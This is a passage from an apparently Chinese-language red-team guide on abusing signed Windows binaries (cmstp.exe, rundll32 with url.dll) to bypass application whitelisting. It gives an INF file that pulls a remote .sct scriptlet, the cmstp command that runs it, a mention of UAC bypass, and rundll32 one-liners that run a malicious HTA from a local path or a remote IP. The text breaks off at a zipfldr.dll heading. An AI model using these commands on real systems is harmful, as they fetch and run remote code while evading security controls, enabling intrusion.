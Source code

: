 ```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,https://gist.githubusercontent.com/NickTyrer/0604bb9d7bcfef9e0cf82c28a7b76f0f/raw/676451571c203303a95b95fcb29c8b7deb8a66e0/powersct.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
Service
ShortSvc
```

然后执行：

```
cmstp.exe /s cmstp.inf
```

还可以配合 ps1 脚本 bypass uac

参考链接：

https://oddvar.moe/2017/08/15/research-on-cmstp-exe/

### 2.8  白名单 Url.dll

url.dll 是 Internet 快捷壳扩展相关应用程序接口系统文件。

路径：

C:\Windows\System32\url.dll

C:\Windows\SysWOW64\url.dll

第一步生成恶意 hta 文件，就不多说了

第二步通过 rundll32.exe 加载 url.dll 执行 hta 文件

```
rundll32.exe url.dll,FileProtocolHandler file://C:Gamma.hta
```

也可以远程执行：

```
rundll32.exe url.dll,OpenURL http://192.168.75.131/Gamma.hta
```

### 2.9 白名单 zipfldr.dll

zipfldr.dll 自 Windows xp 开始自带的 zip 文件压缩 / 解压工具组件。

在此路径下：
